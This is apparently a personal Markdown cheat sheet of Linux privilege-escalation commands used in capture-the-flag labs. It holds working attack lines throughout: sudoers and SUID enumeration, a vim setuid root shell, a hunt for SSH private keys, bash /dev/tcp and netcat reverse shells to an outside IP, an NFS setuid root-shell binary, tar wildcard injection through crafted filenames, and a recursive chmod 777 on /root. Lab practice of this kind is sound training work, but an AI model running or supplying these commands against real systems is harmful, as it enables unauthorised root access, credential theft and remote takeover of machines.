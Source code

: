 ```
sudo -l
```

View sudo
```
cat /etc/sudoers
```

Find file
```
find . -name "flag2.txt" 2>/dev/null
find / -name "flag4.txt" 2>/dev/null
```

Find suid vulnerable
```
find / -type f -perm -04000 -ls 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -u=s -type f 2>/dev/null

find / -type f -perm /4000 2>/dev/null

```

- Look in GTFObins under SUID
	[[GTFObins]]

```
getcap -r / ls 2>/dev/null
ls -l /usr/bin/vim
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
View cronjobs
```
cat /etc/crontab
```

Find SSH key
```
find / -name id_rsa 2> /dev/null
```

reverse shell without nc:
```
bash -i >& /dev/tcp/<ip>/<port>
```

Mount to a Shared directory to your machine
```
showmount -e 10.10.153.74    
sudo mount -o rw 10.10.153.74:/home/backup /tmp/backupsonattachermachine

sudo su to cd to /tmp/

┌──(root㉿kali)-[/tmp/backupsonattachermachine]
└─# cat nfs.c 
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
┌──(root㉿kali)-[/tmp/backupsonattachermachine]
└─# gcc nfs.c -o nfs -w
┌──(root㉿kali)-[/tmp/backupsonattachermachine]
└─# chmod +s nfs                     
┌──(root㉿kali)-[/tmp/backupsonattachermachine]
└─# ls -l nfs
```

### Wildcard priv esc
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

Change /bin/bash to suid (if using root)
This will run the program as the owner
```
'#!/bin/bash\nchmod +s /bin/bash' > shell.
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
```
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```


### Set 777 perm recursively
```
chmod -R 777 /root/;
```
